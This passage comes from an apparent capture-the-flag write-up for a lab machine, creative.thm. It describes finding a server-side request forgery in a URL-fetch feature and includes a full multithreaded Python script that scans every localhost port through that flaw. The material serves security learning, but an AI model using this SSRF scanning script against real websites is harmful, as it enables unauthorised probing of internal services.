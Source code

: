 - I set up a directory called web-test and move inside it
- I create a test index.html and run python server P-80
- Enter my IP and see if it shows my page

![[Pasted image 20240714085755.png]]

So we have some type of SSRF attack i think, but what now?

Simply hosting a malicious PHP script doesn’t actually do anything, since the website just displays the source of page requested.

Finally, I decided to use this vulnerability to enumerate the machine further.

If we make a request to [http://localhost](http://localhost) via the website, we get the HTML of the creative.thm website:

![](https://miro.medium.com/v2/resize:fit:913/1*Z4cqIwNypgkL5Itcuwl46g.png)

What if we try [http://localhost:port](http://localhost:port) to see if there are any other HTTP services that are not accessible from outside?
To do this quickly, I’ll use a custom python script. This is totally possible to do via Burp Intruder, but it works very slowly with the free version of Burp.

Here is the python script:

```python
import requests
import urllib.parse
from concurrent.futures import ThreadPoolExecutor

def send_post_request(url, payload, headers):
    try:
        response = requests.post(url, data=payload, headers=headers)
        content_length = response.headers.get('Content-Length')
        if content_length != '13':  # Check if content length isn't 13
            print(f"POST request to {url} with payload {payload} returned status code: {response.status_code}, content length: {content_length}")
    except requests.exceptions.RequestException as e:
        print(f"Error sending POST request: {e}")

def main():
    base_url = "http://beta.creative.thm"
    headers = {
        "Host": "beta.creative.thm",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Content-Type": "application/x-www-form-urlencoded",
        "Origin": "http://beta.creative.thm",
        "Connection": "close",
        "Referer": "http://beta.creative.thm/",
        "Upgrade-Insecure-Requests": "1"
    }

    # Using ThreadPoolExecutor to run 20 threads concurrently
    with ThreadPoolExecutor(max_workers=20) as executor:
        for port_number in range(1, 65536):
            url = f"http://localhost:{port_number}"
            payload = f"url=http%3A%2F%2Flocalhost%3A{port_number}"
            executor.submit(send_post_request, base_url, payload, headers)

if __name__ == "__main__":
    main()
```

